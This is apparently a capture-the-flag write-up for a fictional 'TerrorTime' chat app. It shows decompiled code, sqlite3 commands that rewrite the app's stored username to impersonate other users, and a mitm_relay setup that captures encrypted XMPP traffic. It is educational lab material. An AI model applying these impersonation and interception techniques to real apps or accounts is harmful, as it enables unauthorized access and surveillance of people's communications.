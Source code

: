 # Task 5 - Masquerade - (Vulnerability Analysis)

*The app uses a bespoke application of the OAUTH protocol to authorize and authenticate TerrorTime users to the chat service. Our intelligence indicates that individual terrorists are provided phones with TerrorTime installed and pre-registered to them. They simply need to enter their username and secret PIN to access the chat service, which uses OAUTH behind the scenes to generate a unique token that is used for authentication. This is a non-standard way of using the protocol, but they believe it to be superior to normal password-based authentication since a unique token is used per login vs. a static password. Whether that is indeed the case is up to you to analyze and assess for possible vulnerabilities. Our forensics team recovered a deleted file from the terrorist's hard drive that may aid in your analysis.*

*Through other intelligence means, we know that the arrested terrorist is a member of one of many cells in a larger organization. He has shown no signs of someone who is acting in a leadership role -- he simply carries out orders given to him from his cell leader, who is likely relaying information from the top-level organizational leader. To uncover information from the cell leader’s conversations, we need access to their account. The messages are end-to-end encrypted, so without the leader's private key we won't be able to decrypt his messages, but we may be able to learn more about the members of the cell and the organization's structure. Analyze the client and server-side components of the authentication process and find a way to masquerade as arbitrary users without knowing their credentials. Take advantage of this vulnerability and masquerade as the cell leader. Access and review the cell leader’s relevant information stored on the server. Use this information to identify and submit the top-level organizational leader’s username and go a step further and submit a copy of the last (still encrypted) message body from the organization leader’s chat history. It’s suggested to complete task 4 before attempting this task as task 4 aids in discovering the cell leader’s identity.*


*Downloads:*

* *Authentication Program (auth_verify.pyc)*

## Solution

For this task, we need to find a vulnerability that will allow us to masquerade as Gittel in order to identify the top-level organizational leader and find their most recent sent encrypted message.

To begin, we will decompile the provided Python bytecode back into Python using an [online tool](https://python-decompiler.com). The code appears to be a testing script that verifies OAuth2 access tokens using the `/introspect` endpoint. While this endpoint does not exist on the real server, we have a better idea of how the OAuth works.

In Ghidra, if we look at the `requestAccessToken` function, we see that it is performing similar actions as the Python script but it is getting a new token using an incomplete version of the [authorization code flow](https://auth0.com/docs/flows/concepts/auth-code). To use this flow, an application needs to send the server an encoded version of a client ID and client secret. If we want to masquerade as Gittel using this, we would need her client secret. However, without her cached credentials, this is impossible. We will have to figure out a vulnerablity in the authorization logic using only Natalie's cached credentials.

Let's look at how the application logs a user in once they have a token. To do this, we look at what calls `getOAuth2AccessToken`. The relevant caller is `doInBackground` belonging to `XMPPLoginTask`. Now we can see how the application logs in to the chat server.

```java
ref_00 = TerrorTimeApplication.access$000(ref);
ref_01 = ref_00.getXmppUserName();
ppSVar2 = ref_01.split("@");
...
ref_00.validateAccessToken(pCVar3);
ref_02 = XMPPTCPConnectionConfiguration.builder();
...
ref_01 = ref_03.getEncryptPin();
pbVar4 = ref_00.getOAuth2AccessToken(ref_01);
ref_07 = new String(pbVar4);
ref_02.setUsernameAndPassword(ppSVar2[0],ref_07);
```

The application uses the new access token as the password but does not use the client ID as the username. Rather, it uses the first part of the XMPP username. Thie explains why Natalie's client ID is in two places in the database. Since we are able to manipulate the database, we can change the XMPP username to Gittel's username and masquerade as her.

```
$ adb shell

generic_x86:/ # cd /data/data/com.badguy.terrortime/databases
generic_x86:/data/data/com.badguy.terrortime/databases # sqlite3 clientDB.db
sqlite> UPDATE clients SET xname='gittel--vhost-32@terrortime.app';
```

If we log in now using Natalie's credentials, we are presented with Gittel's account instead! However, since the app is end-to-end encrypted, we are not able to view Gittel's chat history because we have Natalie's public and private keys in the database. For this task though, we only need to identify who the top-level organizational leader is.

We see she is talking to Alice and Natalie, who she is in charge of, but also Anjali, Isabelle, and Hannah. One of them is the top-level organizational leader and the other two must be other cell leaders. If we masquerade as the these three contacts using the same vulnerability, we can create a mapping of the conversations and reason what everyone's roles are.


```
Anjali
	Isabelle
	Gittel
	Greyson
	Hannah
	Elijah

Gittel
    Alice
    Natalie
    Anjali
    Isabelle
    Hannah

Isabelle
	Gittel
	Anjali
	Hannah
	Preston
	Keily

Hannah
	Isabelle
	Gittel
	Anjali
```

We can see that Hannah is the top-level organizational leader because she exclusively talks to the other three while they talk to each other and their subordinates as well. While we cannot see Hannah's chat history, her messages must still be coming to the device so we are able to intercept them.

Normally, a tool such as Burp Suite would be ideal but it cannot capture XMPP messages. For this, we will use [mitm_relay](https://github.com/jrmdev/mitm_relay) which will let us see encrypted XMPP messages. Since we have control of the XMPP server address using the database, we can set it to our [host machine](https://developer.android.com/studio/run/emulator-networking) running the MITM which will interact with the real XMPP server as normal.

```
sqlite> UPDATE clients SET xsip='10.0.2.2';
```

```
$ /usr/local/bin/python mitm_relay.py -l 0.0.0.0 -r tcp:443:chat.terrortime.app:443 -c server.pem -k private.key
[!] Client cert/key not provided.
[!] Interception disabled! mitm_relay will run in monitoring mode only.
[+] Relay listening on tcp 443 -> chat.terrortime.app:443
[+] New client: ('127.0.0.1', 49319) -> chat.terrortime.app:443
...
S >> C [ 54.91.5.130:443 >> 127.0.0.1:49319 ] [ Mon 23 Dec 17:04:50 ] [ 2086 ]  
<message to='hannah--vhost-32@terrortime.app/chat...</forwarded></result></message>
...
```

Hannah's full encrypted conversation history is displayed in the output in JSON encoded as HTML. Each message body is within `<body>` tags. Using the last section of the output, we can use an [online tool](https://codebeautify.org/html-decode-string) to decode back to plain JSON and we have the most recent encrypted message body.

```json
{
    "messageKey": {
        "uG2WefXBkmgF3uVHFnzWHUgA9XoGms348sGn/C9Aqqo=":"AyPsTTiuatk8h0hjF4IOLINa3pRBclyZe59qh1hp9A0HFZOJy706DELFK/f6upmi+wmOQ0GL/V5Uy2IW4lDLd1Bd+5KP8dVC6LYqS9BWrwGTIpKacANUj889nOX23XoT8x/OjYXS25C57v7qCxidGB0fz63FSaQVZ2gJd5a1OL6jTi2VfXov+QmFR2TsmIwxTPQXCdH4mHWgAfgjsJni022s41PHQeTlYrEo6hOGc9IrhCoPu+0mBMSnST4dN/wlr0yq9WVERpe40AApo0nRFSxL7vR5kRhfChaB6qFJBeQgR/283hDFOxpl5LkRMdnvJN1DUHEY4xAg1OD54IFyOA==",
        "Uyc9U2Er8+NjGHYDiYp+gwQog1pGW5hdQOyAkdzzeTc=":"TE+JJygk2Bk08nkoPc910Yk5Ai0sv9pvchSo/yMFB75GXcqr+KGF80hscfssgRpF9ntmgZ8N0p/cs5xdGnX2inPNEeZqyp26TJt/NHaGnHSnPwt0rKUs4k4HUqnFIyuFz0vWlSKYeKCoYwUa+jU6PUQAUrBGFn5S+R32SQXHtUbbI1BJpMVvUavZU8G7BASH5Hp09NVkryPM9KWRGp+XCPaR1qTC7SgrVhgG0vKM2eHXebA7pR+xzTIObXsxafj2AGTKvhKkBRrrIk6fO3KGwnSkpx7rB0pq30UM5H1I08k7BpvVDhviD92TS7JvgukZ1NEX3kwxES2qq1jDk2f2TQ=="
    },
    "messageSig":"ZF7FtwVWyniuuuD+lb7/ujP+QdBw1u2i2jsgyBpyggE=",
    "message": {
        "msg":"vO+dG1BlPW6frcVYxF425denko81KIDgbBqhsvXSU+SLH/Eo4CpX7mVEOXbqywC46UUqMpQFBwLxyySzP1BeBPiarWQNV5u15xk4I1DkLf21vJOHTKR2/HeivzgmLQ92RAaSYDLcEvFBEGf9I/i0aFb7QRblECNMuVXRwfv+EWxfuANElUTZ98RvrNE9KKUd0zRPJwyYlh5yS1Gga0JSvXbWxDacpmxxGJxVpKsDBD33UAA/WTvKcvXgGRdmWE6m6QoRDflVztcnyZK3ItYWvyhN29Py1/nFG92rN2zeBg37sLJYgUCyG76dm+DDX+ma",
        "iv":"qXPwjboi8GgJyxg6CceXeA=="
    }
}
```
